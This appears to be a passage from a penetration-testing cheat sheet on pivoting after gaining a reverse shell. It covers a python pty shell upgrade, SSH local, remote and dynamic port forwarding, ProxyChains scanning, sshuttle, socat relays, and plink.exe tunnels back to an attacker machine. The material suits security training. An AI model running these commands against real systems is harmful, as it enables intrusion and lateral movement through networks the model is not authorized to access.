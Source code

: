   ```
- Give a reverse shell [TTY](https://en.wikipedia.org/wiki/TTY) functionality with Python3's pty: `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- `ssh -R <local-port>:127.0.0.1:<target-port> <username>@<local-machine>`
- `ssh -N -L <bind_address>:<port>:<host>:<hostport> <username>@<address>`
  - Listen on all interfaces (`<bind_address>` = `0.0.0.0`) on port `<port>`, then forward all packets through the SSH tunnel (`<username>@<address>`) to port `<hostport>` on the host `<host>`
  - Verify it with `ss -ntplu`

#### SSH Dynamic Port Forwarding
1. From the reverse shell, run `ssh -N -D <address to bind to>:<port to bind to> <username>@<SSH server address>`
2. Now we must direct our tools to use this proxy with ProxyChains
   - Edit the ProxyChains configuration file `/etc/proxychains.conf`, add the SOCKS5 proxy `socks5  <IP-reverse-shell> <port to bind to>`
3. To run the tools through the SOCKS5 proxy, prepend each command with ProxyChains
   - Example with nmap: `sudo proxychains nmap -vvv -sT --top-ports=20 -Pn <IP>`
   - Example with SMB: `proxychains smbclient -L //<IP>/ -U <username> --password=<password>`

#### SSH Remote Port Forwarding
1. Start ssh on your local machine
2. On the reverse shell: `ssh -N -R [bind_address]:port:host:hostport [username@address]`
   - Set `[bind_address]` as `127.0.0.1`
   - `[username@address]` of your local ssh


#### SSH Remote Dynamic Port Forwarding
1. On the reverse shell, run `python3 -c 'import pty; pty.spawn("/bin/bash")'` and `ssh -N -R <PORT> [username@address]`
   - `[username@address]` of your local ssh
2. Edit the ProxyChains configuration file `/etc/proxychains.conf`, add the SOCKS5 proxy `socks5  127.0.0.1 <PORT>`
3. To run the tools through the SOCKS5 proxy, prepend each command with ProxyChains


#### Sshuttle
1. Note: it requires root privileges on the SSH client and Python3 on the SSH server
2. From the reverse shell, run `socat TCP-LISTEN:2222,fork TCP:<forward-IP>:<forward-PORT>`
3. `sshuttle -r <ssh-connection-string> <subnet> ...`
   - Specify the SSH connection string we want to use `<ssh-connection-string>` and the subnets that we want to tunnel through this connection (ex. `10.74.23.0/24 172.16.163.0/24`)


### ssh.exe
1. Start SSH server on Kali `sudo systemctl start ssh`
2. Connect to the Windows machine. Note: OpenSSH bundled with Windows has to be higher than `7.6` for remote dynamic port forwarding
3. `ssh -N -R <PORT> <kali>@<IP>`
4. Edit the ProxyChains configuration file `/etc/proxychains.conf`, add the SOCKS5 proxy to it (`socks5  127.0.0.1 <PORT>`).
5. To run the tools through the SOCKS5 proxy, prepend each command with ProxyChains

### Plink.exe

The general format is: `plink.exe <user>@<kali-IP> -R <kaliport>:<target-IP>:<target-port>`

The first time plink connects to a host, it will attempt to cache the host key in the registry. For this reason, we should pipe the answer to the prompt with the `cmd.exe /c echo y` command. The final result will look like `cmd.exe /c echo y | plink.exe <user>@<kali> -R <kaliport>:<target-IP>:<target-port>`.

### Netsh

#### Local port forwarding
  ```